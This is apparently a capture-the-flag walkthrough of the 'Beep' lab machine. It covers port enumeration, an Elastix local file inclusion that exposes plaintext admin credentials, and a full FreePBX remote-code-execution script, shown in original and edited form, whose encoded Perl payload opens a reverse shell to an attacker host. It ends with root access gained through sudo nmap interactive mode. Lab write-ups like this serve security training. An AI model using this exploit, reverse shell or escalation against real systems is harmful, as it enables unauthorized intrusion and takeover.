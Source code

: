# IP Address: 10.10.10.7

# Enumeration
```
┌──(code㉿kali)-[~]
└─$ nmapAutomator.sh -H 10.10.10.7 -t all


PORT      STATE SERVICE    REASON  VERSION
22/tcp    open  ssh        syn-ack OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       syn-ack Postfix smtpd
80/tcp    open  http       syn-ack Apache httpd 2.2.3
110/tcp   open  pop3       syn-ack Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    syn-ack 2 (RPC #100000)
143/tcp   open  imap       syn-ack Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/http   syn-ack Apache httpd 2.2.3 ((CentOS))
878/tcp   open  status     syn-ack 1 (RPC #100024)
993/tcp   open  ssl/imap   syn-ack Cyrus imapd
995/tcp   open  pop3       syn-ack Cyrus pop3d
3306/tcp  open  mysql      syn-ack MySQL (unauthorized)
4190/tcp  open  sieve      syn-ack Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp? syn-ack
4559/tcp  open  hylafax    syn-ack HylaFAX 4.3.10
5038/tcp  open  asterisk   syn-ack Asterisk Call Manager 1.1
10000/tcp open  http       syn-ack MiniServ 1.570 (Webmin httpd)
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix



```

### HTTP (80)
Elastix VoIP service is served on TCP port 80 which is vulnerable to local file inclusion. We can grab the amportal.conf file with Burp (so that it's formatted) and see the database and admin user credentials in plaintext.

![burp](https://github.com/codetantrum/walkthroughs/blob/master/Beep/images/Pasted%20image%2020211118194810.png)

asteriskuser:jEhdIekWmdjE
admin:jEhdIekWmdjE

After logging in as admin, we find a user, fanis, and their PBX extension at PBX tab >> Batch of Extensions >> Download the current extensions in CSV format.

A Google search reveals an unauthenticated RCE vulnerability with the FreePBX (Asterisk) component. We find an exploit here https://www.nmmapper.com/st/exploitdetails/18650/26436/freepbx-2100-elastix-220-remote-code-execution/ and edit it for our purposes.

Original:
```
import urllib
rhost="172.16.254.72"
lhost="172.16.254.223"
lport=443
extension="1000"

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url)
```

Edited:
```
import ssl						# EDIT 1
import urllib
rhost="10.10.10.7"				# EDIT 2
lhost="10.10.14.17"				# EDIT 3
lport=4488						# EDIT 4
extension="233"					# EDIT 5 (fanis' extension)

ctx = ssl.create_default_context()	# BEGIN EDIT 6
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE		# END EDIT 7

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url, context=ctx)	# EDIT 8
```

Note: We needed to import the SSL library to have the ability to ignore the certificate errors served. 

Setting up a netcat listener on port 4488, we launch the exploit and catch a reverse shell as asterisk.
```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4488
listening on [any] 4488 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.7] 50263
id
uid=100(asterisk) gid=101(asterisk)

```

user.txt

![user.txt](https://github.com/codetantrum/walkthroughs/blob/master/Beep/images/Pasted%20image%2020211119131650.png)


# Privilege Escalation

Check sudo permissions of asterisk and find that user can run many commands as root without password. Run nmap interactively and spawn a root shell.
```
python -c 'import pty;pty.spawn("/bin/bash")'
bash-3.2$ sudo -l
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ sudo /usr/bin/nmap --interactive
sudo /usr/bin/nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)

```


# Proof

root.txt

![root.txt](https://github.com/codetantrum/walkthroughs/blob/master/Beep/images/Pasted%20image%2020211119133031.png)
